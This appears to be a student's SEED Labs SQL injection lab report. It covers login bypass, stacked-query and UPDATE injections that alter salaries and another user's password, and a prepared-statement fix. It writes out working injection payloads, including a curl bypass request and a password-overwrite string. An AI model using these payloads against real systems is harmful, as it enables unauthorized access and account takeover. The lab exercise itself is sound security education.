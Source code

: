 # SEEDlabs: SQL Injection Attack Lab

#### Ozgur Ural
#### Student ID: 2564455

## 3 Lab Tasks

### 3.1 Task 1: Get Familiar with SQL Statements

Console ：
```sh
# mysql -u root -pdees
```
```sh
mysql> use Users;
mysql> show tables;
```

```sh
mysql> use 1;
Database changed
```
Indicates that you can add, delete, modify and query

```sh
mysql> show tables;
```
Shows that we have credential table.

```c
SELECT * FROM credential WHERE Name='Alice'
```

![11](./lab3-screenshots/11.png)

### 3.2 Task 2: SQL Injection Attack on SELECT Statement
#### Task 2.1: SQL Injection Attack from webpage. 
In this task, we need to login into the admin page without knowing any employee’s credential. Figure 1 shows
login to the SQL injection webpage.
![1](./lab3-screenshots/1.png)
Figure 1 

After having logged into the SQL Injection webpage, we can see the details as shown in Figure 2.
![2](./lab3-screenshots/2.png)
Figure 2 


### Task 2.2: SQL Injection Attack from command line 

curl 'http://www.seedlabsqlinjection.com/unsafe_credential.php?EID=a+%27+or+Name%3D%27Admin%27+%23&Password=aass'

### Task 2.3: Append a new SQL statement. 

I tried the following SQL query to update the statement:

alice'; UPDATE credential SET Nickname='OzgurUral' WHERE name='alice' ;#

However it did not succeed and returned the page shown below:
![3](./lab3-screenshots/3.png)
Figure 3 

Because the protection mechanism of MySql database does not allow multiple statements to be executed, so the injection fails.


## 3.2 Task 2: SQL Injection Attack on UPDATE Statement
### Task 3.1: Modify your own salary
Firstly, I entered the system as Alice with the command below.
![4](./lab3-screenshots/4.png)
Figure 4

Task 3.2: Modify other people’ salary. 
Then, I modify Alice's salary with the command below:
![5](./lab3-screenshots/5.png)
Figure 5

And as you can see in Figure 6, Alice's salary is increased.
![6](./lab3-screenshots/6.png)
Figure 6

Also, af as you can see in Figure 7, Boby's salary is set as 1 dollar. This time we firstly entered the System as Boby and change the salary with the same method explained previously.
![7](./lab3-screenshots/7.png)
Figure 7

### Task 3.3: Modify other people’s password.

```sh
[10/08/22]seed@VM:~$ echo -n PasswordOzgurural > password.txt
[10/08/22]seed@VM:~$ cat password.txt
PasswordOzgurural[10/08/21]seed@VM:~$ 
[10/08/22]seed@VM:~$ sha1sum password.txt
2303012284ca4c22d18b3ac808bfcec68598a020  password.txt
[10/08/22]seed@VM:~$ 
```
Then I enter:

‘, Password=’2303012284ca4c22d18b3ac808bfcec68598a020′ WHERE Name=’Boby’;#

Into the NickName field on Alice’s Edit Profile page.
After I submit it, I log out of Alice’s account and try to log into Boby’s account with the new password (PasswordOzgurural):
![8](./lab3-screenshots/8.png)
Figure 8

## 3.4 Task 4: Countermeasure — Prepared Statement


In this task, firstly I fix the unstafe_home.php, as you can see in Figure 9. Then I fix unsafe_edit_backend.php, as can be seen in Figure 10.

![9](./lab3-screenshots/9.png)

Figure 9

![10](./lab3-screenshots/10.png)

Figure 10

After these fixes, I tried performing one of the SQL injection attacks. I will try to change Alice’s salary from her Edit Profile page. As expected; it was not succeeded.



